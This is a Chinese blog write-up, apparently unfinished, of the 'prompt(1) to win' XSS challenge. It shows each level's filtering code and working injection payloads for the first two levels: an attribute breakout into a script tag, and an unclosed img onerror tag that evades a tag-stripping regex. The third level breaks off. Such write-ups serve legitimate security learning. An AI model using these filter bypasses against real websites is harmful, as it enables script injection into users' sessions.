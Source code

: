 ```yaml
---
layout: post
title: prompt(1)-to-win-Write-Up
date: 2017-07-28 
categories: XSS(未完成)  
---
```



## 介绍

### 关于站点

这个站点的灵感来自于[alert(1) to win](https://alf.nu/alert1)。在没有用户交互的情况下调用`prompt(1)`就算作成功。

### 0x00

第一题源码是这样的

	function escape(input) {
	    // warm up
	    // script should be executed without user interaction
	    return '<input type="text" value="' + input + '">';
	}        

![](/images/posts/xss/1.png)
此处的input就是你输入的所在位置。第一题源码很简单，先使用`1">`，句子成为`<input type="text" value="1"> ">`这样就使<input>闭合掉了。这时候就可以随心所欲的写入xss语句了。例如最常见的语句`<script>prompt(1)</script>`。拼合起来就是Payload：

`1"><script>prompt(1)</script>`

### 0x01

源码如下，这里用正则全局匹配过滤了`<xxx>`，那我们就构造`<xxx`不加上`>`。这种要求img标签可以实现，所以`<img src="#" onerror=prompt(1)`。但是现在处于`<article>`标签下，所以使用`//`注释符注释掉，这样img标签就不在article便签下，也就能正常工作了。

	function escape(input) {
	    // tags stripping mechanism from ExtJS library
	    // Ext.util.Format.stripTags
	    var stripTagsRE = /<\/?[^>]+>/gi;
	    input = input.replace(stripTagsRE, '');
	
	    return '<article>' + input + '</article>';
	}      
	
所以最后的Payload如下：
`<img src="#" onerror=prompt(1)//`

### 0x02

 源码源码源码～～～
 
	 function escape(input) {
	    //                      v-- frowny face
	    input = input.replace(/[=(]/g, '');
	
	    // ok seriously, disallows equal signs and open parenthesis
	    return input;
	}   
	
`=（`被过滤了，

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [0x00-X-Man夏令营](http://RoyTse.github.io/2017/07/prompt(1)-to-win-Write-Up/)  